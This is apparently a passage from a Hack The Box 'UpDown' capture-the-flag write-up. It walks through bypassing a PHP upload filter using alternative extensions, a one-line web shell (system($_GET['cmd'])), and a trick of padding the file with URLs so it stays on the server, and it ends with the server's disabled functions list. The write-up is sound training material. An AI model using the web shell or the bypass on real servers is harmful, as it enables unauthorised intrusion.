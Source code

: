 Burp Extension _Add Custom Header_:
![[/assets/images/htb-writeup-updown/updown02.png]]

Project Options > Add _Session Handling Rules_ > _Invoke a Burp extension_:
![[/assets/images/htb-writeup-updown/updown03.png]]

Change _URL Scope_ and add _Proxy_ to _Tools Scope_, and you should now be able to browse `http://dev.siteisup.htb` and upload files:
![[/assets/images/htb-writeup-updown/updown04.png]]


### Step 2
We know from the source code (`checker.php`) that following extensions is blocked: `php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar`.
We also have to adapt to the max file size of 10kb: `$_FILES['file']['size'] > 10000`
Lastly, the following wrappers are also blocked: `!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site`

Reading about [file upload](https://book.hacktricks.xyz/pentesting-web/file-upload) on HackTricks these are listed as usefull extensions for PHP:
`.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc`

Playing around and testing to upload stuff I am able to upload this file:
```bash
➜  updown cat shell.pht
<?php echo "Shell";system($_GET['cmd']); ?>
```

However when looking in the uploads directory (`http://dev.siteisup.htb/uploads/`) a directory is created but no file is in the dir..
Going back to the code, this probably have something to do with below line from `checker.php`, that's invoked after reading the uploaded file.
```bash
  # Delete the uploaded file.
	@unlink($final_path);
```

After a lot of playing around I noticed that when uploading a file, simply add some URL in the end of your code so the server will spend time to check if it's up or not. This will keep the file alive long enough for us to see the content.

```bash
➜  updown cat shell.phar 
<?php phpinfo(); ?>
https://exploit.se
https://exploit.se
```

![[/assets/images/htb-writeup-updown/updown05.png]]

The `disabled_functions` are as following:
```bash
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```
